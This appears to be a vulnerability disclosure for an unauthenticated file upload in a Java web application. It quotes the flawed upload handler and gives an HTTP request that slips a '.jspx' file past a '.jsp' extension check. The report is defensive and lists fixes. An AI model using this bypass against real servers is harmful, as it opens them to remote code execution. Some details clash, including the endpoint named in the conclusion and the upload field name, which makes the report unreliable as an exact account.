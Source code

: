![image-20250208160734873](./assets/image-20250208160734873.png)

![image-20250208160539277](./assets/image-20250208160539277.png)



# Vulnerability Report

## Title: Unauthenticated File Upload Leading to Remote Code Execution (RCE)

### Summary:
The application allows unauthenticated users to upload files via the `/gok4` endpoint. The uploaded files are not properly validated, which can lead to remote code execution (RCE) if a malicious file is uploaded.

### Affected Endpoint:
`/gok4`

### Vulnerability Type:
Unauthenticated RCE

### Vulnerable Code:
```java
public String go(HttpServletRequest request, HttpServletResponse response) {
    try {
        String referer = request.getHeader("referer");
        Pattern p = Pattern.compile("([a-z]*:(//[^/?#]+)?)?", 2);
        Matcher mathcer = p.matcher(referer);
        if (mathcer.find()) {
            String callBackPath = mathcer.group();
            MultipartHttpServletRequest multipartRequest = (MultipartHttpServletRequest)request;
            MultipartFile imgFile = multipartRequest.getFile("fileupload");
            if (imgFile.getName().endsWith(".jsp")) {
                return null;
            }

            String[] paths = FileUtil.getSavePathByRequest(request);
            JsonObject json = FileUtil.saveImage(imgFile, paths);
            String url = "redirect:" + callBackPath + "/kindeditor/plugins/image/redirect.html?s=" + json.toString() + "#" + json.toString();
            logger.info("++++gok4 return:" + url);
            return url;
        }
    } catch (Exception var12) {
        logger.error("gok4 error", var12);
    }

    return null;
}
```

### Proof of Concept (PoC):
```http
POST /gok4 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Accept: */*
Connection: close

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; name="file"; filename="1.jspx"
Content-Type: image/jpeg

Test
------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

### Impact:

An attacker can exploit this vulnerability to upload a JSP file with a different extension (e.g., `.jspx`). This file can contain malicious code, which, when executed by the server, can lead to remote code execution. This allows the attacker to execute arbitrary commands on the server, potentially compromising the entire system.

### Recommendation:

1. **File Type Validation**: Implement strict file type validation to ensure only allowed file types are uploaded.
2. **Authentication and Authorization**: Ensure that file upload functionality is restricted to authenticated and authorized users.
3. **File Content Scanning**: Use antivirus or antimalware tools to scan the content of uploaded files for potential threats.
4. **File Storage**: Store uploaded files outside the web root to prevent direct access via the web server.

### Conclusion:

The unauthenticated file upload functionality in the `/imgk3` endpoint poses a significant security risk, allowing attackers to execute arbitrary code on the server. It is crucial to implement proper validation, authentication, and security measures to mitigate this vulnerability.

### References:

- [OWASP File Upload Guidelines](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)